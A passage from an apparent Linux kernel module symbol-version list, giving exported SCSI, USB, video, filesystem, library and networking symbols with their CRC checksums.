    drivers/scsi/scsi_mod scsi_free_host_dev 0x87296929
    drivers/scsi/scsi_mod scsi_get_command 0xfe985241
    drivers/scsi/scsi_mod scsi_get_host_dev 0x3b65af50
    drivers/scsi/scsi_mod scsi_get_sense_info_fld 0x796fc5ce
    drivers/scsi/scsi_mod scsi_host_alloc 0x7096a91e
    drivers/scsi/scsi_mod scsi_host_get 0x3ac8652d
    drivers/scsi/scsi_mod scsi_host_lookup 0x2be55ce7
    drivers/scsi/scsi_mod scsi_host_put 0x84ae1a04
    drivers/scsi/scsi_mod scsi_host_set_state 0x5de27cec
    drivers/scsi/scsi_mod scsi_internal_device_block 0xd7ebfb9d
    drivers/scsi/scsi_mod scsi_internal_device_unblock 0x3929afa6
    drivers/scsi/scsi_mod scsi_io_completion 0x7ce7c662
    drivers/scsi/scsi_mod scsi_ioctl 0xe15b5cac
    drivers/scsi/scsi_mod scsi_ioctl_send_command 0xa25c4f56
    drivers/scsi/scsi_mod scsi_is_host_device 0xb063d8ad
    drivers/scsi/scsi_mod scsi_is_sdev_device 0xe496fdba
    drivers/scsi/scsi_mod scsi_is_target_device 0x2dafd021
    drivers/scsi/scsi_mod scsi_logging_level 0xaf3dd7dc
    drivers/scsi/scsi_mod scsi_mode_sense 0x1b31c2e4
    drivers/scsi/scsi_mod scsi_nonblockable_ioctl 0x7f855626
    drivers/scsi/scsi_mod scsi_normalize_sense 0x0c65e73c
    drivers/scsi/scsi_mod scsi_partsize 0x4afe9a77
    drivers/scsi/scsi_mod scsi_print_command 0x9adeeed9
    drivers/scsi/scsi_mod scsi_print_msg 0x67f88938
    drivers/scsi/scsi_mod scsi_print_req_sense 0x3168975b
    drivers/scsi/scsi_mod scsi_print_sense 0xe40b6736
    drivers/scsi/scsi_mod scsi_print_sense_hdr 0xca5dbc50
    drivers/scsi/scsi_mod scsi_print_status 0x9cfd56c5
    drivers/scsi/scsi_mod scsi_put_command 0xedeb0b46
    drivers/scsi/scsi_mod scsi_queue_work 0x0bcb56f9
    drivers/scsi/scsi_mod scsi_register 0x77d804f7
    drivers/scsi/scsi_mod scsi_register_driver 0x72cbdbc4
    drivers/scsi/scsi_mod scsi_register_interface 0xd85b912f
    drivers/scsi/scsi_mod scsi_release_request 0xdba47cf9
    drivers/scsi/scsi_mod scsi_remove_device 0x7ebf2f0b
    drivers/scsi/scsi_mod scsi_remove_host 0xa58af2f5
    drivers/scsi/scsi_mod scsi_remove_target 0x4f0f612c
    drivers/scsi/scsi_mod scsi_report_bus_reset 0x4e8a46f5
    drivers/scsi/scsi_mod scsi_report_device_reset 0x53a6771f
    drivers/scsi/scsi_mod scsi_request_normalize_sense 0x83172c9d
    drivers/scsi/scsi_mod scsi_rescan_device 0x9db1dc64
    drivers/scsi/scsi_mod scsi_reset_provider 0x842f9ce8
    drivers/scsi/scsi_mod scsi_scan_host 0x8ee8eea2
    drivers/scsi/scsi_mod scsi_scan_target 0x354e5e4d
    drivers/scsi/scsi_mod scsi_sense_desc_find 0x2b0ba2b0
    drivers/scsi/scsi_mod scsi_sense_key_string 0x96cd2b04
    drivers/scsi/scsi_mod scsi_set_medium_removal 0x6e7a2a1c
    drivers/scsi/scsi_mod scsi_setup_blk_pc_cmnd 0x8d2e5a0e
    drivers/scsi/scsi_mod scsi_target_block 0xcadd0011
    drivers/scsi/scsi_mod scsi_target_quiesce 0x71f8f82f
    drivers/scsi/scsi_mod scsi_target_resume 0xd9166113
    drivers/scsi/scsi_mod scsi_target_unblock 0xb7874830
    drivers/scsi/scsi_mod scsi_test_unit_ready 0xe00430b5
    drivers/scsi/scsi_mod scsi_track_queue_full 0x87715e51
    drivers/scsi/scsi_mod scsi_unblock_requests 0x75b9238f
    drivers/scsi/scsi_mod scsi_unregister 0xab78cbfa
    drivers/scsi/scsi_mod scsicam_bios_param 0xe6610b08
    drivers/scsi/scsi_mod starget_for_each_device 0x4fd065aa
    drivers/scsi/scsi_transport_fc fc_attach_transport 0xe57b89ad
    drivers/scsi/scsi_transport_fc fc_release_transport 0xd84057df
    drivers/scsi/scsi_transport_fc fc_remote_port_add 0x1a1da433
    drivers/scsi/scsi_transport_fc fc_remote_port_delete 0xf95efaac
    drivers/scsi/scsi_transport_fc fc_remote_port_rolechg 0x49a7180e
    drivers/scsi/scsi_transport_fc fc_remove_host 0x2963ad43
    drivers/scsi/scsi_transport_fc scsi_is_fc_rport 0x21eb8a9b
    drivers/scsi/scsi_transport_iscsi iscsi_conn_error 0xa00c3d76
    drivers/scsi/scsi_transport_iscsi iscsi_recv_pdu 0x9b0d92e7
    drivers/scsi/scsi_transport_iscsi iscsi_register_transport 0x25fb25cf
    drivers/scsi/scsi_transport_iscsi iscsi_unregister_transport 0xf32fa5d4
    drivers/scsi/scsi_transport_sas sas_attach_transport 0xafd28dd4
    drivers/scsi/scsi_transport_sas sas_phy_add 0x1b490ad3
    drivers/scsi/scsi_transport_sas sas_phy_alloc 0xf200f642
    drivers/scsi/scsi_transport_sas sas_phy_delete 0x111f24cc
    drivers/scsi/scsi_transport_sas sas_phy_free 0x4a0f8a11
    drivers/scsi/scsi_transport_sas sas_release_transport 0xdc272263
    drivers/scsi/scsi_transport_sas sas_remove_host 0x88f0a591
    drivers/scsi/scsi_transport_sas sas_rphy_add 0x9aa968fe
    drivers/scsi/scsi_transport_sas sas_rphy_alloc 0xb2fad2c3
    drivers/scsi/scsi_transport_sas sas_rphy_delete 0xd0663c51
    drivers/scsi/scsi_transport_sas sas_rphy_free 0xed014546
    drivers/scsi/scsi_transport_sas scsi_is_sas_phy 0xe5e203cd
    drivers/scsi/scsi_transport_sas scsi_is_sas_rphy 0x065d7e97
    drivers/scsi/scsi_transport_spi spi_attach_transport 0xa467bd81
    drivers/scsi/scsi_transport_spi spi_display_xfer_agreement 0xf2dbce54
    drivers/scsi/scsi_transport_spi spi_dv_device 0x3380e49d
    drivers/scsi/scsi_transport_spi spi_release_transport 0xa3911a12
    drivers/scsi/scsi_transport_spi spi_schedule_dv_device 0x7d74240f
    drivers/scsi/scsi_transport_spi2 spi2_attach_transport 0x78789f50
    drivers/scsi/scsi_transport_spi2 spi2_display_xfer_agreement 0xb8142627
    drivers/scsi/scsi_transport_spi2 spi2_dv_device 0xd2ec2689
    drivers/scsi/scsi_transport_spi2 spi2_populate_ppr_msg 0xa3ff1593
    drivers/scsi/scsi_transport_spi2 spi2_populate_sync_msg 0xb540856a
    drivers/scsi/scsi_transport_spi2 spi2_populate_width_msg 0xc204bd04
    drivers/scsi/scsi_transport_spi2 spi2_print_msg 0xfabf1b6a
    drivers/scsi/scsi_transport_spi2 spi2_release_transport 0x1bea8e18
    drivers/scsi/scsi_transport_spi2 spi2_schedule_dv_device 0x25d5998e
    drivers/telephony/ixj ixj_pcmcia_probe 0x820419c1
    drivers/telephony/phonedev phone_register_device 0xe031295b
    drivers/telephony/phonedev phone_unregister_device 0xd6eee594
    drivers/usb/atm/usbatm usbatm_usb_disconnect 0x32b2d685
    drivers/usb/atm/usbatm usbatm_usb_probe 0x0c8e5e11
    drivers/usb/core/usbcore __usb_get_extra_descriptor 0x9924c496
    drivers/usb/core/usbcore usb_add_hcd 0x23c6b2a0
    drivers/usb/core/usbcore usb_alloc_dev 0x21706420
    drivers/usb/core/usbcore usb_alloc_urb 0xa99b76ba
    drivers/usb/core/usbcore usb_altnum_to_altsetting 0xf636d9f6
    drivers/usb/core/usbcore usb_buffer_alloc 0xb51fad2a
    drivers/usb/core/usbcore usb_buffer_free 0x1b832382
    drivers/usb/core/usbcore usb_buffer_map_sg 0xa5671b60
    drivers/usb/core/usbcore usb_buffer_unmap_sg 0x21956127
    drivers/usb/core/usbcore usb_bulk_msg 0x16e0c791
    drivers/usb/core/usbcore usb_bus_list 0xace5c0fc
    drivers/usb/core/usbcore usb_bus_list_lock 0xd9eb4197
    drivers/usb/core/usbcore usb_calc_bus_time 0x7e64181d
    drivers/usb/core/usbcore usb_check_bandwidth 0x1f6ed3c3
    drivers/usb/core/usbcore usb_claim_bandwidth 0x7efbeeca
    drivers/usb/core/usbcore usb_clear_halt 0x1f8df311
    drivers/usb/core/usbcore usb_control_msg 0x747fdef4
    drivers/usb/core/usbcore usb_create_hcd 0xa0a8127d
    drivers/usb/core/usbcore usb_deregister 0x6de197e7
    drivers/usb/core/usbcore usb_deregister_dev 0x2fbc0f25
    drivers/usb/core/usbcore usb_disabled 0x19a304ba
    drivers/usb/core/usbcore usb_disconnect 0x47a05e47
    drivers/usb/core/usbcore usb_driver_claim_interface 0x12e1690b
    drivers/usb/core/usbcore usb_driver_release_interface 0xf0de30d2
    drivers/usb/core/usbcore usb_find_device 0xa3e0e47e
    drivers/usb/core/usbcore usb_find_interface 0x21b6c32a
    drivers/usb/core/usbcore usb_free_urb 0x6e894654
    drivers/usb/core/usbcore usb_get_current_frame_number 0xc01368e7
    drivers/usb/core/usbcore usb_get_descriptor 0xd8bd49d3
    drivers/usb/core/usbcore usb_get_dev 0xb2c3e66f
    drivers/usb/core/usbcore usb_get_intf 0x0dd6b12f
    drivers/usb/core/usbcore usb_get_status 0xdd91e749
    drivers/usb/core/usbcore usb_get_string 0xd8c8c757
    drivers/usb/core/usbcore usb_get_urb 0x031af930
    drivers/usb/core/usbcore usb_hc_died 0xb3810d3b
    drivers/usb/core/usbcore usb_hcd_giveback_urb 0x922e433e
    drivers/usb/core/usbcore usb_hcd_pci_probe 0x3896184f
    drivers/usb/core/usbcore usb_hcd_pci_remove 0xc4ad65c5
    drivers/usb/core/usbcore usb_hcd_pci_resume 0x8b010e11
    drivers/usb/core/usbcore usb_hcd_pci_suspend 0x94cd57af
    drivers/usb/core/usbcore usb_hcd_poll_rh_status 0xaca9265e
    drivers/usb/core/usbcore usb_hcd_resume_root_hub 0x655adced
    drivers/usb/core/usbcore usb_hcd_suspend_root_hub 0xea47b0ef
    drivers/usb/core/usbcore usb_hub_tt_clear_buffer 0x97875f48
    drivers/usb/core/usbcore usb_ifnum_to_if 0x9645f6ff
    drivers/usb/core/usbcore usb_init_urb 0x69990f36
    drivers/usb/core/usbcore usb_kill_urb 0x8ca8030c
    drivers/usb/core/usbcore usb_lock_device 0xdf5b8c6b
    drivers/usb/core/usbcore usb_lock_device_for_reset 0x1e8c0102
    drivers/usb/core/usbcore usb_match_id 0x544268f9
    drivers/usb/core/usbcore usb_mon_deregister 0xfed11ed1
    drivers/usb/core/usbcore usb_mon_register 0x3b28d697
    drivers/usb/core/usbcore usb_put_dev 0x6233173a
    drivers/usb/core/usbcore usb_put_hcd 0x19623e6d
    drivers/usb/core/usbcore usb_put_intf 0x9357582a
    drivers/usb/core/usbcore usb_register 0x2f17d051
    drivers/usb/core/usbcore usb_register_dev 0x071d8fdd
    drivers/usb/core/usbcore usb_register_notify 0x3be89d3c
    drivers/usb/core/usbcore usb_release_bandwidth 0xc7f8734e
    drivers/usb/core/usbcore usb_remove_hcd 0x4fb87689
    drivers/usb/core/usbcore usb_reset_configuration 0x84c94ffc
    drivers/usb/core/usbcore usb_reset_device 0xe990834e
    drivers/usb/core/usbcore usb_set_device_state 0x9bef8e77
    drivers/usb/core/usbcore usb_set_interface 0x2fa03ba0
    drivers/usb/core/usbcore usb_sg_cancel 0x76260c41
    drivers/usb/core/usbcore usb_sg_init 0x15f7c73b
    drivers/usb/core/usbcore usb_sg_wait 0xc80a1d5f
    drivers/usb/core/usbcore usb_string 0xf4bb3c2b
    drivers/usb/core/usbcore usb_submit_urb 0x7f924d4e
    drivers/usb/core/usbcore usb_trylock_device 0xf605aaa6
    drivers/usb/core/usbcore usb_unlink_urb 0x30e3926c
    drivers/usb/core/usbcore usb_unlock_device 0x99182bac
    drivers/usb/core/usbcore usb_unregister_notify 0xe9587909
    drivers/usb/gadget/net2280 net2280_set_fifo_mode 0x8466ebde
    drivers/usb/gadget/net2280 usb_gadget_register_driver 0x26e9cf1f
    drivers/usb/gadget/net2280 usb_gadget_unregister_driver 0x3c243db1
    drivers/usb/host/sl811-hcd sl811h_driver 0x8780d27c
    drivers/usb/media/ov511/ov511 ov511_deregister_decomp_module 0x7db9be3c
    drivers/usb/media/ov511/ov511 ov511_register_decomp_module 0xec076e29
    drivers/usb/media/podxtpro/podxtpro podxtpro_create_files 0xb24b1d5b
    drivers/usb/media/podxtpro/podxtpro podxtpro_remove_files 0x06d3e3e0
    drivers/usb/media/podxtpro/podxtpro podxtpro_set_parameter 0x16166938
    drivers/usb/media/usbvideo RingQueue_Dequeue 0x54ded406
    drivers/usb/media/usbvideo RingQueue_Enqueue 0x5293ede2
    drivers/usb/media/usbvideo RingQueue_Flush 0x9778abda
    drivers/usb/media/usbvideo RingQueue_WakeUpInterruptible 0xdf605c59
    drivers/usb/media/usbvideo usbvideo_AllocateDevice 0x7eec7314
    drivers/usb/media/usbvideo usbvideo_DeinterlaceFrame 0x0c4569a6
    drivers/usb/media/usbvideo usbvideo_Deregister 0x287a16f4
    drivers/usb/media/usbvideo usbvideo_RegisterVideoDevice 0xd9624b6a
    drivers/usb/media/usbvideo usbvideo_TestPattern 0xeb09d73f
    drivers/usb/media/usbvideo usbvideo_register 0xbffb5d59
    drivers/usb/media/w9968cf w9968cf_vppmod_deregister 0x04396259
    drivers/usb/media/w9968cf w9968cf_vppmod_register 0x5ff38a0e
    drivers/usb/net/atmel/at76_usbdfu usbdfu_download 0x843000ab
    drivers/usb/net/atmel/at76c503 at76c503_delete_device 0x5780a3d1
    drivers/usb/net/atmel/at76c503 at76c503_do_probe 0x1a416697
    drivers/usb/net/cdc_ether usbnet_cdc_unbind 0x5f27880f
    drivers/usb/net/cdc_ether usbnet_generic_cdc_bind 0x94759cf2
    drivers/usb/net/usbnet usbnet_defer_kevent 0x794c873f
    drivers/usb/net/usbnet usbnet_disconnect 0x23af6735
    drivers/usb/net/usbnet usbnet_get_drvinfo 0xa7934dda
    drivers/usb/net/usbnet usbnet_get_endpoints 0xe24f18d8
    drivers/usb/net/usbnet usbnet_get_msglevel 0xabc2b5b9
    drivers/usb/net/usbnet usbnet_probe 0xc173bf04
    drivers/usb/net/usbnet usbnet_resume 0xa14eba9e
    drivers/usb/net/usbnet usbnet_set_msglevel 0x89be8a77
    drivers/usb/net/usbnet usbnet_skb_return 0xfbb91c35
    drivers/usb/net/usbnet usbnet_suspend 0xcc281f3d
    drivers/usb/serial/usbserial ezusb_set_reset 0xf916257d
    drivers/usb/serial/usbserial ezusb_writememory 0xcc05c473
    drivers/usb/serial/usbserial usb_serial_deregister 0x0235aeb4
    drivers/usb/serial/usbserial usb_serial_disconnect 0x64e94cb1
    drivers/usb/serial/usbserial usb_serial_generic_write_bulk_callback 0x3f6cb883
    drivers/usb/serial/usbserial usb_serial_port_softint 0xc78bbb05
    drivers/usb/serial/usbserial usb_serial_probe 0x0806f216
    drivers/usb/serial/usbserial usb_serial_register 0x4434a7dc
    drivers/video/backlight/backlight backlight_device_register 0x73d7e00a
    drivers/video/backlight/backlight backlight_device_unregister 0x7f8bca45
    drivers/video/backlight/lcd lcd_device_register 0xd3c3d696
    drivers/video/backlight/lcd lcd_device_unregister 0x0a675c34
    drivers/video/console/bitblit fbcon_set_bitops 0x98c3061b
    drivers/video/console/font find_font 0xf7584a9c
    drivers/video/console/font get_default_font 0x093e3659
    drivers/video/console/softcursor soft_cursor 0x14e21e08
    drivers/video/console/tileblit fbcon_set_tileops 0xd4fbed02
    drivers/video/cyber2000fb cyber2000fb_attach 0x07113d97
    drivers/video/cyber2000fb cyber2000fb_detach 0x0cc3ede5
    drivers/video/cyber2000fb cyber2000fb_disable_extregs 0x73b92114
    drivers/video/cyber2000fb cyber2000fb_enable_extregs 0xc37dbd8f
    drivers/video/cyber2000fb cyber2000fb_get_fb_var 0xcb200a0f
    drivers/video/macmodes mac_find_mode 0xdae00b25
    drivers/video/macmodes mac_map_monitor_sense 0xe2304303
    drivers/video/macmodes mac_var_to_vmode 0x00907cd5
    drivers/video/macmodes mac_vmode_to_var 0x08ed0b62
    drivers/video/matrox/g450_pll g450_mnp2f 0x50e474c3
    drivers/video/matrox/g450_pll matroxfb_g450_setclk 0xcb8eeff8
    drivers/video/matrox/g450_pll matroxfb_g450_setpll_cond 0xc14d449d
    drivers/video/matrox/matroxfb_DAC1064 DAC1064_global_init 0x0cc60de3
    drivers/video/matrox/matroxfb_DAC1064 DAC1064_global_restore 0xacaefa98
    drivers/video/matrox/matroxfb_DAC1064 matrox_G100 0xe2f31400
    drivers/video/matrox/matroxfb_DAC1064 matrox_mystique 0xb0cdfb31
    drivers/video/matrox/matroxfb_Ti3026 matrox_millennium 0xbfeeb2aa
    drivers/video/matrox/matroxfb_accel matrox_cfbX_init 0xdbcf8448
    drivers/video/matrox/matroxfb_base matroxfb_enable_irq 0xd117e9be
    drivers/video/matrox/matroxfb_base matroxfb_register_driver 0x5f9e3b7d
    drivers/video/matrox/matroxfb_base matroxfb_unregister_driver 0xfca22018
    drivers/video/matrox/matroxfb_base matroxfb_wait_for_sync 0x32b575c8
    drivers/video/matrox/matroxfb_g450 matroxfb_g450_connect 0xb61ec4a3
    drivers/video/matrox/matroxfb_g450 matroxfb_g450_shutdown 0xcf944cc0
    drivers/video/matrox/matroxfb_misc matroxfb_DAC_in 0x9fee6b7c
    drivers/video/matrox/matroxfb_misc matroxfb_DAC_out 0xb6c46bdf
    drivers/video/matrox/matroxfb_misc matroxfb_PLL_calcclock 0x25cf8049
    drivers/video/matrox/matroxfb_misc matroxfb_read_pins 0xd179e459
    drivers/video/matrox/matroxfb_misc matroxfb_var2my 0xabd8e427
    drivers/video/matrox/matroxfb_misc matroxfb_vgaHWinit 0xbcba0934
    drivers/video/matrox/matroxfb_misc matroxfb_vgaHWrestore 0xab317e20
    drivers/video/sis/sisfb sis_free 0x454a3cf0
    drivers/video/sis/sisfb sis_free_new 0x0fcf3023
    drivers/video/sis/sisfb sis_malloc 0x3037658e
    drivers/video/sis/sisfb sis_malloc_new 0xc4102594
    drivers/video/vgastate restore_vga 0x686de290
    drivers/video/vgastate save_vga 0xe7a2620e
    drivers/w1/ds9490r ds_get_device 0x9ebb58e4
    drivers/w1/ds9490r ds_put_device 0x24f7d9b3
    drivers/w1/ds9490r ds_read_bit 0xa4914860
    drivers/w1/ds9490r ds_read_block 0x723eb46b
    drivers/w1/ds9490r ds_read_byte 0x6bfa1b5f
    drivers/w1/ds9490r ds_reset 0x34cddcb8
    drivers/w1/ds9490r ds_touch_bit 0xb8bc2410
    drivers/w1/ds9490r ds_write_bit 0xf0c14700
    drivers/w1/ds9490r ds_write_block 0x2ea20f96
    drivers/w1/ds9490r ds_write_byte 0xbde9a354
    drivers/w1/wire w1_add_master_device 0xd703c624
    drivers/w1/wire w1_calc_crc8 0x7c2f2afb
    drivers/w1/wire w1_delay 0xcdad3759
    drivers/w1/wire w1_family_get 0xb0c86d52
    drivers/w1/wire w1_family_put 0x45181a35
    drivers/w1/wire w1_family_registered 0x345f469c
    drivers/w1/wire w1_read_8 0xd28991ba
    drivers/w1/wire w1_read_block 0xb38d024c
    drivers/w1/wire w1_register_family 0xadeb1de9
    drivers/w1/wire w1_remove_master_device 0x31a7a05c
    drivers/w1/wire w1_reset_bus 0xa55f97a3
    drivers/w1/wire w1_reset_select_slave 0x7e0d8ff9
    drivers/w1/wire w1_search_devices 0x23eb4b9b
    drivers/w1/wire w1_touch_bit 0xd8082559
    drivers/w1/wire w1_unregister_family 0x2616cdb9
    drivers/w1/wire w1_write_8 0x95f480cc
    drivers/w1/wire w1_write_block 0xe2f3c614
    fs/configfs/configfs config_group_init 0x31117a64
    fs/configfs/configfs config_group_init_type_name 0x2d136ba1
    fs/configfs/configfs config_item_get 0x85496ec0
    fs/configfs/configfs config_item_init 0x0f6d7f15
    fs/configfs/configfs config_item_init_type_name 0xe772336f
    fs/configfs/configfs config_item_put 0x6dbdb4e0
    fs/configfs/configfs config_item_set_name 0xa822c63b
    fs/configfs/configfs configfs_register_subsystem 0xb774f49b
    fs/configfs/configfs configfs_unregister_subsystem 0xd1e802e1
    fs/exportfs/exportfs export_op_default 0xaa6150b9
    fs/exportfs/exportfs find_exported_dentry 0x86c41b02
    fs/fat/fat fat_add_entries 0xbca2e57f
    fs/fat/fat fat_alloc_new_dir 0xed01e730
    fs/fat/fat fat_attach 0xb6eb7a1c
    fs/fat/fat fat_build_inode 0xb9788f9c
    fs/fat/fat fat_date_unix2dos 0x08b18831
    fs/fat/fat fat_detach 0x36c65213
    fs/fat/fat fat_dir_empty 0x03de1525
    fs/fat/fat fat_fill_super 0x1b0f68c0
    fs/fat/fat fat_free_clusters 0x561aaf46
    fs/fat/fat fat_fs_panic 0x7deab167
    fs/fat/fat fat_get_dotdot_entry 0xa8bcd4ee
    fs/fat/fat fat_notify_change 0x4bec4817
    fs/fat/fat fat_remove_entries 0xeea47706
    fs/fat/fat fat_scan 0x4fa2e70c
    fs/fat/fat fat_search_long 0x282b4b30
    fs/fat/fat fat_sync_bhs 0xd62599be
    fs/fat/fat fat_sync_inode 0x85d05ecc
    fs/gfs_locking/lock_dlm/lock_dlm lock_dlm_debug_dump 0xba0e1714
    fs/gfs_locking/lock_harness/lock_harness lm_mount 0x143b6d05
    fs/gfs_locking/lock_harness/lock_harness lm_register_proto 0xcbe0becd
    fs/gfs_locking/lock_harness/lock_harness lm_unmount 0xe3c21dcc
    fs/gfs_locking/lock_harness/lock_harness lm_unregister_proto 0x6081e553
    fs/gfs_locking/lock_harness/lock_harness lm_withdraw 0x55daafae
    fs/jbd/jbd journal_abort 0xfe5de585
    fs/jbd/jbd journal_ack_err 0xb94c7cda
    fs/jbd/jbd journal_blocks_per_page 0x2a5a00c2
    fs/jbd/jbd journal_check_available_features 0x94aa7df3
    fs/jbd/jbd journal_check_used_features 0xcd3f1408
    fs/jbd/jbd journal_clear_err 0x33f26b15
    fs/jbd/jbd journal_create 0x82b28fac
    fs/jbd/jbd journal_destroy 0x37332fad
    fs/jbd/jbd journal_dirty_data 0xe5dc51df
    fs/jbd/jbd journal_dirty_metadata 0x11c3a2bf
    fs/jbd/jbd journal_errno 0xe0061718
    fs/jbd/jbd journal_extend 0xfa535f26
    fs/jbd/jbd journal_flush 0x03df93ca
    fs/jbd/jbd journal_force_commit 0x909cfa77
    fs/jbd/jbd journal_force_commit_nested 0x169df9cb
    fs/jbd/jbd journal_forget 0x59bb566a
    fs/jbd/jbd journal_get_create_access 0xd327d07d
    fs/jbd/jbd journal_get_undo_access 0x203d1e4f
    fs/jbd/jbd journal_get_write_access 0x14478ef8
    fs/jbd/jbd journal_init_dev 0x91418de0
    fs/jbd/jbd journal_init_inode 0x14e28f8e
    fs/jbd/jbd journal_invalidatepage 0x16a2335e
    fs/jbd/jbd journal_load 0xba6f1e32
    fs/jbd/jbd journal_lock_updates 0xe737fb1c
    fs/jbd/jbd journal_release_buffer 0xb94627c9
    fs/jbd/jbd journal_restart 0x422a5ead
    fs/jbd/jbd journal_revoke 0xaa226b01
    fs/jbd/jbd journal_set_features 0x632bd0b6
    fs/jbd/jbd journal_start 0x0dd17c21
    fs/jbd/jbd journal_start_commit 0x828ba2a6
    fs/jbd/jbd journal_stop 0xccf12042
    fs/jbd/jbd journal_try_to_free_buffers 0xef41b48a
    fs/jbd/jbd journal_unlock_updates 0x4b68bc9b
    fs/jbd/jbd journal_update_format 0xb6fdf3c4
    fs/jbd/jbd journal_update_superblock 0xa6d8e934
    fs/jbd/jbd journal_wipe 0x79ce0e57
    fs/jbd/jbd log_wait_commit 0x0b3dc888
    fs/lockd/lockd lockd_down 0xa7b91a7b
    fs/lockd/lockd lockd_up 0xf6933c48
    fs/lockd/lockd nlmclnt_proc 0xd36f5586
    fs/lockd/lockd nlmsvc_ops 0xd522f358
    fs/nfsd/nfsd nfs4_acl_add_ace 0x1bb3671e
    fs/nfsd/nfsd nfs4_acl_free 0xb70fbe06
    fs/nfsd/nfsd nfs4_acl_get_whotype 0x5a157ae4
    fs/nfsd/nfsd nfs4_acl_new 0x20dbd7e0
    fs/nfsd/nfsd nfs4_acl_nfsv4_to_posix 0x03b4de46
    fs/nfsd/nfsd nfs4_acl_posix_to_nfsv4 0xf459098f
    fs/nfsd/nfsd nfs4_acl_write_who 0x35e33c1e
    fs/ocfs2/cluster/ocfs2_nodemanager mlog_and_bits 0x687f6251
    fs/ocfs2/cluster/ocfs2_nodemanager mlog_not_bits 0x1cb231d0
    fs/ocfs2/cluster/ocfs2_nodemanager o2hb_check_local_node_heartbeating 0xd60f2c6c
    fs/ocfs2/cluster/ocfs2_nodemanager o2hb_check_node_heartbeating 0x1d747ce3
    fs/ocfs2/cluster/ocfs2_nodemanager o2hb_check_node_heartbeating_from_callback 0xbaeb4700
    fs/ocfs2/cluster/ocfs2_nodemanager o2hb_fill_node_map 0x1b89c6ee
    fs/ocfs2/cluster/ocfs2_nodemanager o2hb_register_callback 0x7822cad7
    fs/ocfs2/cluster/ocfs2_nodemanager o2hb_setup_callback 0xb79f2ab6
    fs/ocfs2/cluster/ocfs2_nodemanager o2hb_stop_all_regions 0x4900035b
    fs/ocfs2/cluster/ocfs2_nodemanager o2hb_unregister_callback 0x2b9f771a
    fs/ocfs2/cluster/ocfs2_nodemanager o2net_register_handler 0x43bce54e
    fs/ocfs2/cluster/ocfs2_nodemanager o2net_send_message 0x36418553
    fs/ocfs2/cluster/ocfs2_nodemanager o2net_send_message_vec 0xa9f5379a
    fs/ocfs2/cluster/ocfs2_nodemanager o2net_unregister_handler_list 0xf1a5611d
    fs/ocfs2/cluster/ocfs2_nodemanager o2nm_configured_node_map 0xa87bc9e7
    fs/ocfs2/cluster/ocfs2_nodemanager o2nm_get_hb_ctl_path 0xe525ca6c
    fs/ocfs2/cluster/ocfs2_nodemanager o2nm_get_node_by_ip 0xea37ca31
    fs/ocfs2/cluster/ocfs2_nodemanager o2nm_get_node_by_num 0x6e3aef92
    fs/ocfs2/cluster/ocfs2_nodemanager o2nm_node_get 0xaa9f831c
    fs/ocfs2/cluster/ocfs2_nodemanager o2nm_node_put 0x6f53e733
    fs/ocfs2/cluster/ocfs2_nodemanager o2nm_this_node 0xa82a8645
    fs/ocfs2/dlm/ocfs2_dlm dlm_errmsg 0xd7ba575e
    fs/ocfs2/dlm/ocfs2_dlm dlm_errname 0xfb86b96f
    fs/ocfs2/dlm/ocfs2_dlm dlm_migrate_lockres 0xec33ba02
    fs/ocfs2/dlm/ocfs2_dlm dlm_print_one_lock 0x549c1545
    fs/ocfs2/dlm/ocfs2_dlm dlm_register_domain 0xd97986e3
    fs/ocfs2/dlm/ocfs2_dlm dlm_register_eviction_cb 0x496ca187
    fs/ocfs2/dlm/ocfs2_dlm dlm_setup_eviction_cb 0x7a1211f8
    fs/ocfs2/dlm/ocfs2_dlm dlm_unregister_domain 0x05319f2b
    fs/ocfs2/dlm/ocfs2_dlm dlm_unregister_eviction_cb 0xd8fa57a6
    fs/ocfs2/dlm/ocfs2_dlm dlmlock 0xf1980d8e
    fs/ocfs2/dlm/ocfs2_dlm dlmunlock 0x37ea2bb2
    fs/relayfs/relayfs relay_buf_full 0xe6ab9c24
    fs/relayfs/relayfs relay_close 0x63c86bf5
    fs/relayfs/relayfs relay_flush 0x1f55c76a
    fs/relayfs/relayfs relay_open 0xef52ac69
    fs/relayfs/relayfs relay_reset 0x9f1616cd
    fs/relayfs/relayfs relay_subbufs_consumed 0x12248d3a
    fs/relayfs/relayfs relay_switch_subbuf 0xbd0b7f07
    fs/relayfs/relayfs relayfs_create_dir 0x51c8008c
    fs/relayfs/relayfs relayfs_file_operations 0x94405ce0
    fs/relayfs/relayfs relayfs_remove_dir 0x29f363a6
    lib/crc-ccitt crc_ccitt 0x3771b461
    lib/crc-ccitt crc_ccitt_table 0x75811312
    lib/crc16 crc16 0x8ffdb3b8
    lib/crc16 crc16_table 0x02a6ce5a
    lib/libcrc32c crc32c_be 0x2329b292
    lib/libcrc32c crc32c_le 0x37d0b921
    lib/reed_solomon/reed_solomon decode_rs16 0x14dfb94e
    lib/reed_solomon/reed_solomon free_rs 0x0e15ff31
    lib/reed_solomon/reed_solomon init_rs 0xf3ed347c
    lib/zlib_deflate/zlib_deflate zlib_deflate 0x46bc0adc
    lib/zlib_deflate/zlib_deflate zlib_deflateCopy 0x44b473e5
    lib/zlib_deflate/zlib_deflate zlib_deflateEnd 0x53dbeea6
    lib/zlib_deflate/zlib_deflate zlib_deflateInit2_ 0xdc6fabd4
    lib/zlib_deflate/zlib_deflate zlib_deflateInit_ 0xd441e182
    lib/zlib_deflate/zlib_deflate zlib_deflateParams 0x598527f7
    lib/zlib_deflate/zlib_deflate zlib_deflateReset 0x2b619e9d
    lib/zlib_deflate/zlib_deflate zlib_deflate_workspacesize 0xf0caf44b
    net/appletalk/appletalk aarp_send_ddp 0x6e996324
    net/appletalk/appletalk alloc_ltalkdev 0xaab9bd9b
    net/appletalk/appletalk atalk_find_dev_addr 0xd0708b67
    net/appletalk/appletalk atrtr_get_dev 0x293a07cd
    net/ax25/ax25 asc2ax 0xd20bff63
    net/ax25/ax25 ax25_display_timer 0x0367a570
    net/ax25/ax25 ax25_find_cb 0x84365e27
    net/ax25/ax25 ax25_findbyuid 0x564d9f14
    net/ax25/ax25 ax25_hard_header 0xe6ef46e3
    net/ax25/ax25 ax25_linkfail_register 0x3a36d829
    net/ax25/ax25 ax25_linkfail_release 0x8f632d5d
    net/ax25/ax25 ax25_listen_register 0x1b0a4bea
    net/ax25/ax25 ax25_listen_release 0x2f640955
    net/ax25/ax25 ax25_protocol_register 0x607b7b3c
    net/ax25/ax25 ax25_protocol_release 0x8ede9e26
    net/ax25/ax25 ax25_rebuild_header 0xdb2665a7
    net/ax25/ax25 ax25_send_frame 0xc7154072
    net/ax25/ax25 ax25_uid_policy 0x242852b9
